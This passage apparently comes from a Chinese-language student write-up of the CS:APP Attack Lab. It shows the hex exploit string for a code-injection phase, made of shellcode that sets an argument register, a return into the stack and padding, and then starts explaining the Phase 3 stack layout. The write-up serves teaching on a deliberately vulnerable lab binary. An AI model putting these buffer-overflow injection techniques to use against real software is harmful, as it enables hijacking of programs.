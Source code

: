 栈栈顶地址打印如下

<img src="Attack%20Lab.assets/attack_1_2.png" style="zoom:80%;" />

所以最终答案如下：

```c
48 c7 c7 fa 97 b9 59
68 ec 17 40 00
c3
41 41 41
41 41 41 41 41
41 41 41 41 41 41 41 41 41
41 41 41 41 41 41 41 41 41 41
78 dc 61 55 00 00 00 00
```

###  Phase 3

本题也需要用到代码攻击，与上题中不同的是，本题要求以cookie的字符串地址形式作为参数传参到`touch3`中。但是注意因为第三题中，后续操作会将 buf 栈中的 40 个字节覆盖了，因为在`hexmatch`函数中开了110个字节，且使用随机数在这110个字节中的某个部分写入cookie的值，所以不能将我们注入的字符串存储在这里，改为存储在调用`getbuf`函数前的栈中，通过打断点得到其栈顶地址是 0x5561dca0 。所以应该把字符串存入的地址设为 0x5561dca8 ，这个地址在输入的 16 进制中就紧跟着跳转的地址。

<img src="Attack%20Lab.assets/attack_1_3.png" style="zoom:80%;" />

需要注入的代码经反编译如下：

